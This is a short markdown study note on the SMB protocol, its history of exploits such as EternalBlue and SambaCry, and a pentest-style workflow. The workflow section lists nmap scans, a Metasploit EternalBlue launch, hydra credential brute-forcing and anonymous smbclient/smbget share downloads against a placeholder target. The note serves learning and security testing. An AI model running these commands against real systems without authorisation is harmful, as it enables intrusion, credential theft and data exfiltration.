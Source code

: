 ```yaml
---
layout: note
title: "Server Message Block(SMB)"
description: "is a communication protocol"
tags: [smb, network, client-server]
date: 2025-07-25
---
```


# Server Message Block(SMB)
- The Server Message Block (SMB) protocol is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.

- **SMB** a crucial protocol in Windows environments.
- Known as a response-request protocol, the SMB protocol is one of the most common methods used for network communications.
- The client sends an SMB request to the server to initiate the connection.
- When the server receives the request, it sends an SMB response back to the client, establishing the communication channel necessary for a two-way conversation.(similar to SYN-ACK connection)
- Once it is granted access, the client can access the required resource for reading, writing, executing and so on.
- Allowing remote access to directories and files (like \\server\share).
- SMB runs directly over **TCP/IP** and uses **port 445**.

## Why is SMB vulnerable?
- In 2017, the WannaCry and Petya ransomware attacks exploited a vulnerability in SMB 1.0 that made it possible to load malware on vulnerable clients and then propagate the malware across networks.
- **Famous SMB Exploits**
    - EternalBlue (MS17-010) -> Exploits SMBv1 buffer overflow, and hence allowed for Remote Code Execution (RCE).
    - SMBGhost (CVE-2020-0796) -> SMBv3 compression flaw, and the impact of the exploit was RCE, DoS.
    - SMB Relay Attacks -> Forwards SMB auth to another machine, and the impact of this was Credential theft, lateral movement.
    - SambaCry (CVE-2017-7494) -> Linux Samba RCE, which allowed for a Remote shell.

# Approach
- **Scan for Open SMB Ports** like if 445 and 139(which is an old port for SMB)
```bash
nmap -p 445,139 <target_IP>
```
- **Checks for SMB Version** like if SMBv1 is enabled
```bash
nmap --script smb-protocols -p 445 <target_IP>
```
- **Exploit with Metasploit** for instance the *EternalBlue* exploit is available on **Metasploit**.
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_IP>
exploit
```
- Brute-Force Weak Credentials (if SMB allows login):
```bash
hydra -L users.txt -P passwords.txt smb://<target_IP>
```

## More SMB commands
- *`smbclient` - ftp-like client to access SMB/CIFS resources on servers*
- List SMB Shares (anonymous login):
```bash
smbclient -L //<target_IP> -N
```
    - `-L`: List available shares
    - `-N`: No password (anonymous login), Bypasses authentication if guest access is allowed.
- Access a Share:
```bash
smbclient //<target_IP>/sharename -N
```
- Download Files from SMB:
```bash
smbget -R smb://<target_IP>/sharename -U ""
```
    - `-R`: Recursive download, Downloading Files Recursively (Without Interactive Login), Fetches all files/subdirectories in the share.
    - `-U ""`: Blank username, Forces anonymous login (no password).

- *When we connect to the `smbclient`, we can do the following*:
    - List files:
    ```bash
    ls
    ```
    - Download a file:
    ```bash
    get <file>
    ```
    - Upload a file:
    ```bash
    put <file>
    ```
    - Change Directory:
    ```bash
    cd <dir>
    ```
    - Lol 😀 just exit:
    ```bash
    exit
    ```
